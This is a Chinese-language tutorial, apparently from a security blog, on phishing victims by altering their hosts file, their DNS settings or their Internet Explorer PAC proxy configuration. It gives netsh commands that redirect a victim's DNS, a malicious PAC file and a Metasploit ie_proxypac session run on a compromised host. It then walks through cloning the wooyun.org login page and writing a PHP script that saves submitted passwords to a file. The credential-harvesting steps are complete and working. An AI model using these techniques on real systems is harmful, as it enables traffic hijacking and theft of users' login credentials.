 # 通过.PAC进行网络钓鱼

0x00 常见网络钓鱼方式
=====

攻击者进行网络钓鱼的方式常有以下几种:

**1**. 通过修改受害者hosts文件(`C:\WINDOWS\system32\drivers\etc\hosts`)来实现；

**2**. 通过修改受害者dns来实现；

**3**. 已经进入路由器，直接修改路由器的DNS。

罗列的并不全，之后遇到的话再补充，上述三种方式很常见。

1.  修改HOSTS文件，即攻击者修改受害者HOSTS文件为如下形式：
    
    127.0.0.1 localhost x.x.x.x www.wooyun.com
    

这样就受害者访问www.wooyun.com会直接访问到x.x.x.x。在msf中可以使用[inject_host](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/manage/inject_host.rb)脚本来实现。

1.  修改dns进行攻击：
    
    攻击者可是使用如下命令修改受害者的dns地址(`管理员身份执行`)：
    
    ```
    C:\Windows\system32>netsh interface ip show interfaces        
    
    Idx  Met   MTU   状态          名称
    ---  ---  -----  -----------  -------------------
      1   50 4294967295  connected    Loopback Pseudo-Interface 1
     10   10   1500  connected    本地连接        
    
    C:\Windows\system32>netsh interface ip set dns "本地连接" static 192.168.1.100
    C:\Windows\system32>ipconfig /all | findstr 192.168.1.100
       DNS 服务器  . . . . . . . . . . . : 192.168.1.100
    
    ```
    
    这样就修改了受害者的DNS地址，之后可以使用msf的[fakedns](http://www.rapid7.com/db/modules/auxiliary/server/fakedns)来架设dns服务器来修改域名的解析地址。
    

除了直接修改路由器的DNS地址的以上两种方式在某些环境下还是有一些缺点的，例如，一些牛逼的AV会检测到文件的修改而发出报警，除此之外，如果受害者所处内网环境中的防火墙或路由器拦截对外部的DNS请求，修改受害者DNS的攻击方式并不能生效（因为攻击者架设的DNS在外网环境下）。

0x01 通过PAC代理
=====

本文主要介绍的是Metasploit中的一个模块[ie_proxypac](https://github.com/rapid7/metasploit-framework/blob/2bcdb1bec317f7659d1a1d7609db45f98d4d6df2/modules/post/windows/manage/ie_proxypac.rb)。通过[.PAC(自动配置代理)](http://baike.baidu.com/link?url=zxBitLRRy0pS4ux3SF_cWcauZIs2bhd4eETBFtYQz__4GqO0KBvVoBK5Ox-RS0HTn3Ma30AiFnz5aCbsVIOT5_)文件来完全控制IE的用户流量。只需要修改PAC文件，攻击者就能使受害者访问的某个域名指向攻击者的IP。虽然没有修改DNS但是可以达到同样的效果，且这种方式较为隐蔽。[已经有很多人使用这种方式进行网络钓鱼](https://www.securelist.com/en/analysis/204792308/PAC_the_Problem_Auto_Config)。

下面是一个PAC文件示例：

```
function FindProxyForURL(url, host)
{
if (shExpMatch(host, "www.wooyun.org")) { 
 return "PROXY 192.168.52.129:80; DIRECT";
}
if (shExpMatch(host, "www.baidu.com")) { 
 return "PROXY 192.168.52.129:80; DIRECT";
}
}

```

这个文件的配置是当受害者访问www.wooyun.com以及www.baidu.com时，他会直接请求到攻击者ip（ 192.168.52.129）。

> 详细的PAC编写请查看http://findproxyforurl.com/pac-functions/。

将以上脚本保存为test.pac，在获取meterpreter会话的基础上使用ie_proxypac脚本:

```
meterpreter > background 
[*] Backgrounding session 1...
msf > use post/windows/manage/ie_proxypac 
msf post(ie_proxypac) > set session 1
session => 1
msf post(ie_proxypac) > set REMOTE_PAC http://192.168.52.129/test.pac
REMOTE_PAC => http://192.168.52.129/test.pac
msf post(ie_proxypac) > show options     

Module options (post/windows/manage/ie_proxypac):    

   Name           Current Setting         Required  Description
   ----           ---------------         --------  -----------
   AUTO_DETECT    false                           yes       Automatically detect settings.
   DISABLE_PROXY  false                           yes       Disable the proxy server.
   LOCAL_PAC                                      no        Local PAC file.
   REMOTE_PAC     http://192.168.52.129/test.pac  no        Remote PAC file. (Ex: http://192.168.1.20/proxy.pac)
   SESSION        1                               yes       The session to run this module on.
msf post(ie_proxypac) > exploit     

[*] Setting automatic configuration script from local PAC file ...
[+] Automatic configuration script configured...
[*] Post module execution completed    

```

之后打开ie，internet选项->连接->局域网设置：

![Alt text](http://drops.javaweb.org/uploads/images/452034089bc40fc1d262ddd9be4b4f3684f7a587.jpg)

可以看到pac已经使用pac文件进行了代理。

> 代理尽量使用**远程代理**，因为IE11默认禁止本地代理，如果使用本地代理，代理是无效的。[详情](http://blogs.msdn.com/b/ieinternals/archive/2013/10/11/web-proxy-configuration-and-ie11-changes.aspx)测试发现，如果连接了vpn，pac代理是失效的。

现在再访问`www.baidu.com`,`www.wooyun.org`，会看到已经转移到了我们制定的ip：

![Alt text](http://drops.javaweb.org/uploads/images/77dd8277266916242794d5474aeccdf25f8b3be5.jpg)

0x02 能做什么
=====

这里我们修改pac文件如下：

```
function FindProxyForURL(url, host)
{
if (shExpMatch(host, "www.wooyun.org")) { 
 return "PROXY 192.168.52.129:80; DIRECT";
}
}

```

**这里ip要改成自己的web的ip**，如果受害者请求的网站host为`www.wooyun.org`时，满足规则，然后跳转到我们指定的ip地址，这里我们可以来构造钓鱼。

打开[wooyun](http://www.wooyun.org/),右键查看源代码，将所有源代码保存为index.html，放在网站根目录下，因为当受害者请求`http://wooyun.org`，其host为`wooyun.org`不满足代理条件，就会直接请求，所以我们把源代码中的`www.wooyun.org`，改为`wooyun.org`:

![Alt text](http://drops.javaweb.org/uploads/images/ae4abc8bbe6c1c1f0cb166a0523f7cd30e35eb6f.jpg)

然后找到url，src，href标签，修改为http://wooyun.org/xxxx 的形式，比如

```
<link href="/css/style.css?v=201501291909" rel="stylesheet" type="text/css"/>

```

修改为

```
<link href="http://wooyun.org/css/style.css?v=201501291909" rel="stylesheet" type="text/css"/>

```

改完以后，基本上就算克隆成功了：

![Alt text](http://drops.javaweb.org/uploads/images/9b5495f592d1c188065715caed8060d120764c45.jpg)

下来要把登陆页面的的源码复制过来，打开`http://www.wooyun.org/user.php?action=login`，右键复制源码，保存为user.php，放在网站根目录下，修改源码中的url，src，href。修改完之后，打开index.html文件，定位`登录`，修改href为`user.php?action=login`，修改以后此标签为：

```
<a href="user.php?action=login">登录</a> | <a href="http://wooyun.org/user.php?action=register" class="reg">注册</a>

```

打开user.php,定位`用户登录`表单，修改表单action为post.php:

```
<a href="#">用户登录</a></div>
        </div>
<form action="post.php" method="POST">  
.....

```

在网站根目录新建post.php，添加如下代码：

```
<?php $file = 'data.txt';file_put_contents($file, print_r($_POST, true), FILE_APPEND);?><meta http-equiv="refresh" content="0; url=http://wooyun.org/user.php?action=login" />

```

这样钓鱼站就搭建好了。

当用户登录时：

![Alt text](http://drops.javaweb.org/uploads/images/ec1f858b69171588f7132c74e40cdc4255514f59.jpg)

点击登陆以后会跳转到`http://wooyun.org/user.php?action=login`

![Alt text](http://drops.javaweb.org/uploads/images/fe1e977ee24ea1c64bca22e72ccb292903740fa4.jpg)

查看data.txt:

![Alt text](http://drops.javaweb.org/uploads/images/df51a639053db47be25eae70f0ea729f759210fa.jpg)

> 只是简单地一个示例，具体可以通过修改pac文件来实现控制浏览器是否进行代理。

0x03 小结
=====

此种方式进行网络钓鱼，做的细致的话，很难被发现，而且隐蔽性好，缺点就是连接vpn以后代理将会失效。以上是个人的测试结果，请各位大牛指正。